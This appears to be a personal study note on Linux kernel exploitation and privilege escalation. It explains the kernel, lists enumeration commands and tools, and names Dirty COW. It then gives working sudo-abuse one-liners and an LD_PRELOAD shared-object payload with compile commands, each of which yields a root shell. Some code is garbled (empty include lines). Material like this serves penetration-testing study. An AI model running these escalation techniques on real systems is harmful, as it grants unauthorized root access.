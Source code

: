***What's a Kernel***
A [[Linux]] Kernel is a computer program that control everything in the system.
The kernel facilitates the interaction between hardware and software. It's a translator, converting the IO into instruction.
The Kernel is loaded and stays in the Memory right after the bootloader loads up. It's responsible for loading the rest of the OS.
![[Pasted image 20240802065245.png]]
Source: https://en.wikipedia.org/wiki/Kernel_(operating_system)

***What's a Kernel Exploit?***
[[Linux Privilege Escalation]]kernel exploit consists of taking advantage of vulnerabilities discovered inside a specific version on the Linux Kernel.
Security Researchers are on the lookout to find and patch these vulnerabilities, but hackers also are always taking advantage of them if a patch is not found, if the patch has been found but the system was not fixed.
As a Security professionals, our job is to identify and patch these vulnerabilities before the hackers.

Some resources:
https://github.com/xairy/linux-kernel-exploitation
Also:
https://github.com/ankendenke/kernel-exploits

Steps to take control:
Manual commands:

***User and System Enum***
```
uname -a
whoami
id
sudo -l
```

After uname command, lookup on the resources above if the kernel version is listed on the vulnerability list.  Or lookup on google search.

Automated methods:

```
linpeas
linEnum

```
Kernel exploits consist of finding a bug in the kernel version at hand if it still exists and elevate our privilege to root, have unauthorized access to sensible area. Horizontal and vertical escalation are both methods to do damage to the system.
the most common exploits are:
- Dirty cow CVE-2016-5195 https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
- Nielsen 
- Half Nielsen

***Sudo Abuse***
Examples of privilege escalation abusing root
```
sudo awk 'BEGIN {system("/bin/sh")}'
```
```
sudo mount -o bind /bin/bash /bin/mount  
sudo mount
```
```
sudo strace -o/dev/null /bin/bash
```
LD_PRELOAD environment abuse
```
#include  
#include  
#include

void _init() {  
unsetenv(“LD_PRELOAD”);  
setresuid(0,0,0);  
system(“/bin/bash -p”);  
}

and then run it like so:  
gcc -fPIC -shared -o /tmp/x.so preload.c -nostartfiles  
sudo LD_PRELOAD=/tmp/x.so apache2

You’ll get shell.
```
